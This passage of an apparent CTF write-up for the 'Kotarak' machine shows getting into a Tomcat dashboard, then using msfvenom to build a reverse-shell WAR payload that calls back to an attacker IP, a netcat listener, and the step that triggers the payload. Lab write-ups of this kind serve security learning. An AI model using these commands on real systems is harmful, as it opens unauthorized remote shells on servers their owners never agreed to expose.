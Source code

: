 
And we are greeted with the familiar tomcat dashboard.


![tomcat-dash](/assets/img/kotarak/kotarak-tomcat1.png)


<hr width="250" size="6">


<h3>WAR</h3>

First lets create an evil war file to upload, then execute.

```
msfvenom -p java/shell_reverse_tcp lhost=10.10.14.14 lport=6969 -f war -o evil.war

Payload size: 13398 bytes
Final size of war file: 13398 bytes
Saved as: evil.war
```


Set a netcat listener

`nc -nlvp 6969`


Then click on `/evil`

![evil war](/assets/img/kotarak/kotarak-evil-war.png)
